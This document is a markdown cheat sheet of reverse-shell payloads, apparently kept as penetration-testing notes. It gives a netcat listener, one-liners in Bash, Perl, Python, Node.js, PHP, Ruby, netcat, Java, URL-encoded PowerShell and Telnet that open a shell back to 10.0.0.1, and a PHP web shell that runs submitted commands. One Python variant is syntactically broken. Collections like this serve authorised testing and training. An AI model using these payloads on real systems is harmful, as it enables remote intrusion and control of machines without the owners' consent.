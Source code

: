 # Reverse shells

> A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host.

## Listener

### Netcat

```text
nc -lvnp 8000
```

## Reverse shells

### Bash

```text
bash -i >& /dev/tcp/10.0.0.1/8000 0>&1
```

### Perl

```text
perl -e 'use Socket;$i="10.0.0.1";$p=8000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python 2

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```text
python -c 'import sys,socket,os,pty;s=socket.socket() s.connect((os.getenv("10.0.0.1"),int(os.getenv("8000")))) [os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")'
```

### Python 3

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### Nodejs

```text
require('child_process').exec('nc -e sh 10.0.0.1 8000')
```

### PHP

```text
php -r '$sock=fsockopen("10.0.0.1",8000);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```text
php -r '$sock=fsockopen("10.0.0.1",8000);passthru("sh <&3 >&3 2>&3");'
```

```text
php -r '$sock=fsockopen("10.0.0.1",8000);popen("sh <&3 >&3 2>&3", "r");'
```

```text
php -r '$sock=fsockopen("10.0.0.1",8000);system("sh <&3 >&3 2>&3");'
```

```text
php -r '$sock=fsockopen(getenv("10.0.0.1"),getenv("8000"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

```text
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

### Ruby

```text
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",8000).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```text
nc -e /bin/sh 10.0.0.1 8000
```

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8000 >/tmp/f
```

### Java

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Powershell

```text
powershell%20-nop%20-c%20%22$client%20=%20New-Object%20System.Net.Sockets.TCPClient('10.0.0.1',8000);$stream%20=%20$client.GetStream();%5Bbyte%5B%5D%5D$bytes%20=%200..65535%7C%25%7B0%7D;while(($i%20=%20$stream.Read($bytes,%200,%20$bytes.Length))%20-ne%200)%7B;$data%20=%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString($bytes,0,%20$i);$sendback%20=%20(iex%20$data%202%3E&1%20%7C%20Out-String%20);$sendback2%20=%20$sendback%20+%20'PS%20'%20+%20(pwd).Path%20+%20'%3E%20';$sendbyte%20=%20(%5Btext.encoding%5D::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()%7D;$client.Close()%22
```

### Telnet

```text
TF=$(mktemp -u); mkfifo $TF && telnet 10.0.0.1 8000 0<$TF | /bin/sh 1>$TF
```

## 📚 References

* [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
* [netsparker.com/blog/web-security/understanding-reverse-shells/](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)
* [revshells.com](https://www.revshells.com/)

